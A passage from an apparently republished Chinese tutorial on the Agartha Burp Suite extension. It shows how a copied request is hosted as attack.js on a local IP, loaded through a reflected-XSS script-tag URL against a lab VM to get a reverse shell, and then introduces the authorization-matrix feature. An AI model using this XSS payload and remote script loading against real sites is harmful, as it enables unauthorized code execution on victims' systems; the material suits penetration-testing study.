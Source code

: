 我们需要将此 Http 请求转换为 JavaScript，然后再次右键单击“Extensions > Agartha > Copy as JavaScript”将代码保存到我们的剪贴板，第一个选项适用于我们的情况（请求具有最小参数）。

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\1-3.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/1-3.webp)

然后我们用这个内容创建一个 JavaScript 文件并将它托管在我们的本地机器上：

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\2-3.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/2-3.webp)

此 JavaScript 代码将通过“命令注入”漏洞执行，并将由 XSS 问题触发。

一个简单的 Web 服务工作正常，JS 文件路径为：

```xml
<script src=http://192.168.0.19:8002/attack.js></script>
```

网址将是：

```apache
http://vm/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.0.19%3A8002%2Fattack.js%3E%3C%2Fscript%3E
```

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\3-5.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/3-5.webp)

在点击“提交”按钮后，我们成功获得了一个反向shell。

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\4.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/4.webp)

只需单击一个 URL，我们就会通过 XSS 问题远程执行代码。我们在 JavaScript 代码中调用了另一个 Http 请求。

在进入下一个特性之前，我想强调的是，编码可能是嵌套调用的一个问题，这就是为什么我更喜欢从外部加载 JavaScript 文件以避免所有可能的编码问题。

**注意：**它还不支持’XML/JSON’ post 数据。

### 授权矩阵

它旨在检查身份验证/授权问题，结果取决于两个重要因素：

- 用户会话
- 用户可以访问的URL列表

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\5-2.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/5-2.webp)



要将用户标头发送到 Agartha，我们只需右键单击任何用户会话并选择“扩展 > Agartha > Agartha 面板”。

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\6-2.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/6-2.webp)

标头字段会自动填充，但对于用户可以访问的 URL 列表应由我们提供。有几种方法可以做到这一点。Burp 的蜘蛛或一些浏览器附加组件可用于提取哪些 URL 在用户的地盘上。

**注意：请确保已排除注销链接。**

我们也将为其他 2 个用户做同样的事情，然后运行它。
